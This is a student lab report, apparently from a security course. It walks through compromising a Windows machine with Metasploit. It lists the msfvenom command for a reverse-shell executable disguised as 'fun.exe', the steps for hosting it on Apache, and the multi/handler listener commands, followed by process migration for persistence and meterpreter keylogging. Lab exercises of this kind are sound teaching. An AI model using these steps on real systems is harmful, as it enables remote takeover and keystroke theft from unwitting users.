 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
## Name: YATHIN REDDY T
## Reg no: 212223100062
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


### Find the attackers ip address using ifconfig

## OUTPUT :

![IFCONFIG](img/01.png)

### Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT :

![PAYLOAD](img/02.png)

copy the fun.exe into the apache /var/www/html folder
sudo systemctl apache2 start

## Check the status of apache2

## OUTPUT :

![STATUS CHECK](img/03.png)

### Invoke msfconsole:
## OUTPUT:
![MSFCONSOLE](img/04.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT :
![HELP](img/05.png)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT :

![RECENT](img/RECENT.png)

### WINDOWS :

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads

## BROWSE OUTPUT :

![SEARCH](img/G1.png)

## DOWNLOAD OUTPUT :

![DOWNLOAD](img/G2.png)

## COME BACK TO PARROT :

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT :
![PS](<img/og 06.png>)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT :

![NETSTAT](img/07.png)

## WINDOWS OUTPUT :
![TYPE](img/G3.jpg)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT :

![TYPE OUTPUT](img/09.jpg)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
